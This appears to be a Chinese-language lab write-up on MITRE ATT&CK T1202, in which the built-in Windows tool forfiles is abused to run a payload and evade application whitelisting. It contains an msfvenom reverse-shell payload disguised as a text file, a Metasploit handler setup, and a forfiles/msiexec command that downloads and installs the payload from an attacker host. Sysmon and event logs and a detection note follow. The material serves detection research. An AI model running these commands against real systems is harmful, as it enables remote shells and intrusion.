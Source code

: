 # T1202-win-间接命令执行-基于Forfiles执行payload(白名单)

## 来自ATT&CK的描述

可以使用各种Windows实用程序来执行命令，而不需要调用cmd。例如，Forfiles、程序兼容性助手（pcalua.exe）、WSL（WindowsSubsystem for Linux）组件以及其他实用程序可以从命令行界面、运行窗口或通过脚本来调用程序和命令的执行。

攻击者可能会滥用这些功能来规避防御，尤其是在破坏检测和/或缓解控制（如组策略）的同时执行任意动作。（这些控制限制/阻止了cmd或恶意负载相关文件扩展名的使用。）

## 测试案例

Forfiles为Windows默认安装的文件操作搜索工具之一，可根据日期，后缀名，修改日期为条件。常与批处理配合使用。

微软官方文档：

<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753551(v=ws.11)>

说明：Forfiles.exe所在路径已被系统添加PATH环境变量中，因此，Forfiles命令可识别，需注意x86，x64位的Forfiles调用。

Windows 2003 默认位置：

C:\WINDOWS\system32\forfiles.exe C:\WINDOWS\SysWOW64\forfiles.exe

Windows 7 默认位置：

C:\WINDOWS\system32\forfiles.exe C:\WINDOWS\SysWOW64\forfiles.exe

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### 生成payload

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.126.146 LPORT=8888 -f msi > abc.txt
```

#### MSF配置

```bash
msf5 exploit(multi/handler) > back
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 8888
lport => 5555
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.126.146/abc.txt"
```

#### 反弹shell

反弹shell失败！！！但不影响后续分析

## 测试留痕

```log
#sysmon日志
EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:27:08.447
ProcessGuid: {bb1f7c32-2a5c-5e9b-0000-0010b3101d00}
ProcessId: 588
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: /q /i http://192.168.126.146/abc.txt
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020b86d0600}
LogonId: 0x66db8
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-2a5c-5e9b-0000-00100a101d00}
ParentProcessId: 1220
ParentImage: C:\Windows\System32\forfiles.exe
ParentCommandLine: forfiles  /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.126.146/abc.txt"


#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x4c4
新进程名: C:\Windows\System32\forfiles.exe
```

## 检测规则/思路

无具体检测。监控和分析基于主机的检测机制（如Sysmon）中的日志来查看事件，比如查看是否有进程创建事件（创建过程中使用了参数来调用程序/命令/文件和/或生成子进程/网络连接，或者该创建是由这些参数导致的）。

## 相关TIP

[[T1202-win-基于白名单Pcalua执行payload]]

## 参考推荐

MITRE-ATT&CK-T1202

<https://attack.mitre.org/techniques/T1202/>

基于白名单Forfiles执行payload

<https://www.bookstack.cn/read/Micro8/Chapter1-81-90-84_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Forfiles%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%8D%81%E5%9B%9B%E5%AD%A3.md>
